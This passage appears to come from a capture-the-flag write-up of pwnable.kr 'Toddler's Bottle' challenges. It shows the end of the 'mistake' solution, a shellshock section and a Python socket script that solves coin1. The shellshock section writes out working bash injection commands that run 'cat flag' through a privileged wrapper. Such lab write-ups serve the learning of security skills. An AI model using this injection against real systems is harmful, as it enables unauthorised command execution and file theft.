 	close(fd);
	return 0;
}

mistake@ubuntu:~$ ./mistake
do not bruteforce...
1111111111
input password : 0000000000
Password OK


Toddler's Bottle - shellshock

shellshock@ubuntu:~$ cat shellshock.c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}

shellshock@ubuntu:~$ env x='() { :;}; echo vulnerable' /home/shellshock/bash -c "echo this is a test"
vulnerable
this is a test
shellshock@ubuntu:~$ env x='() { :;}; cat flag' ./shellshock
/home/shellshock/bash: cat: No such file or directory
Segmentation fault
shellshock@ubuntu:~$ env x='() { :;}; /bin/cat flag' ./shellshock

Toddler's Bottle - coin1

#!/usr/bin/env python

import re
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("0.0.0.0", 9007))

left, right, mid = 0, 0, 0

while True:
    lines = s.recv(1024).splitlines()
    for line in lines:
        print line
        match = re.search('^N=([0-9]+)\s+C=([0-9]+)', line.strip())
        if match:
                left = 0
                right =  int(match.group(1))
                mid = right/2 + right%2
                payload = " ".join(str(x) for x in range(left, mid)) + "\n"
                print "Sending " + payload
                s.send(payload)
        match = re.search('^([0-9]+)', line)
        if match:
                weight = int(match.group(0))
                if weight < (mid-left)*10:
                        right = mid
                else:
                        left = mid
                mid = left + (right-left)/2 + (right-left)%2
